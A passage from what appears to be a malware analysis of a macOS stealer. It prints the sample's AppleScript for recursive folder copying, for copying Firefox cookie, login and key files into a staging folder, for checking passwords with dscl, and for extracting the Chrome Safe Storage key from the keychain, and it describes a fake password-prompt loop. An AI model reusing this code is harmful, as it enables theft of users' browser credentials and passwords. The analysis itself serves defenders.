 ```
on GrabFolder(sourceFolder, destinationFolder)
	try
		set exceptionsList to {".DS_Store", "Partitions", "Code Cache", "Cache", "market-history-cache.json", "journals", "Previews", "dumps", "emoji", "user_data", "__update__"}
		set fileList to list folder sourceFolder without invisibles
		mkdir(destinationFolder)
		repeat with currentItem in fileList
			if currentItem is not in exceptionsList then
				set itemPath to sourceFolder & "/" & currentItem
				set savePath to destinationFolder & "/" & currentItem
				if isDirectory(itemPath) then
					GrabFolder(itemPath, savePath)
				else
					readwrite(itemPath, savePath)
				end if
			end if
		end repeat
	end try
end GrabFolder
```

Here, the malware begins the extraction process by targeting Firefox browser first. The malware extracts Firefox data including cookies, login history and passwords, and stores them in a staging directory called `writemind`.
```
on parseFF(firefox, writemind)
	try
		set myFiles to {"/cookies.sqlite", "/formhistory.sqlite", "/key4.db", "/logins.json"}
		set fileList to list folder firefox without invisibles
		repeat with currentItem in fileList
			set fpath to writemind & "ff/" & currentItem
			set readpath to firefox & currentItem
			repeat with FFile in myFiles
				readwrite(readpath & FFile, fpath & FFile)
			end repeat
		end repeat
	end try
end parseFF
```

Suddenly, the malware proceeds to prompt the user for the system password using DSCL. With the password, the malware attempts to access the Chrome Safe Storage to retrieve the master encryption key for Chrome. If it fails to access the key, the malware will repeatedly show a fake dialog box to trick the user into entering the valid  password. The master key is then stored under `writemind`. Additionally, the malware will store the valid password under `writemind` too.
```
on checkvalid(username, password_entered)
	try
		set result to do shell script "dscl . authonly " & quoted form of username & space & quoted form of password_entered
		if result is not equal to "" then
			return false
		else
			return true
		end if
	on error
		return false
	end try
end checkvalid
on getpwd(username, writemind)
	try
		if checkvalid(username, "") then
			set result to do shell script "security 2>&1 > /dev/null find-generic-password -ga \"Chrome\" | awk \"{print $2}\""
```